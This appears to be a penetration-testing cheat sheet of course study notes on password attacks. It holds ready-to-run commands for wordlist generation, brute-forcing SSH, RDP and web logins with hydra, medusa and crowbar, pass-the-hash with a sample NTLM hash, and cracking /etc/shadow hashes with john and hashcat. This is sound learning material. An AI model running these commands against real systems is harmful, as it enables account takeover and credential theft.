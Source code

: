 ### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
>Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user(post_form_key)=admin&pass(post_form_key)=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cryptography
> $1$: MD5-based crypt ('md5crypt')  
> $2$: Blowfish-based crypt ('bcrypt')[^bcrypt]  
> $sha1$: SHA-1-based crypt ('sha1crypt')  
> $5$: SHA-256-based crypt ('sha256crypt')  
> $6$: SHA-512-based crypt ('sha512crypt')  

md5sum plain-text, sha1sum plain-text, sha256sum plain-text, sha512sum plain-text  
> https://crackstation.net/ (unsalted hash crack)  
###### Generate salted hash
mkpasswd -m sha512crypt foobar -S "M3vwJPAueK2a1vNM"

###### Symmetric
gpg -c --cipher-algo blowfish blowfish.plain  
gpg --decrypt blowfish.plain.gpg  
gpg -c --cipher-algo aes256 aes256.plain  
gpg --decrypt aes256.plain.gpg

###### Asymmetric 
> https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html  

gpg --gen-key(enter realname--Offsec and email--test@example.com for identification)  
gpg --output example-pub.asc --armor --export Offsec  
gpg --recipient Offsec --encrypt plain.txt  
gpg --decrypt plain.txt.gpg  
gpg --import melanie-private.asc  
gpg --decrypt decrypt-me.gpg(need to enter passphrase)  

###### John the ripper
john --wordlist=rockyou.txt hash  
john -form=dynamic='sha1(md5(sha512($p.$s).$p).$s)' --wordlist=rockyou.txt hash  
john --wordlist=rockyou.txt user_shadow_hash($6$VvN1wBiLLmqWtRXY$oPzxsQbXqdzIISj5NzmKeiUcfXGvFJzqi9YFCzOtdOOI4yOqXm.UBiP7oLeDH8kZUgCtwBwY.YcbqVx7RWlj51)  
john hash.txt --format=NT  
>We have two machines, each with an 8-core CPU. On the first machine we would set the --fork=8 and --node=1-8/16 options, instructing John to create eight processes on this machine, split the supplied wordlist into sixteen equal parts, and process the first eight parts locally. On the second machine, we could use --fork=8 and --node=9-16 to assign eight processes to the second half of the wordlist.

###### John crack shadow file
unshadow /etc/passwd /etc/shadow > unshadowed.txt  
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt  

### Hashcat
```
hashcat -a 0(dictionary) -m 13000 hash wordlist
```
###### Combine each char set(114) with each number(1000) = 114000
```
/usr/lib/hashcat-utils/combinator.bin flag2.txt numbers.txt > hash.txt
```
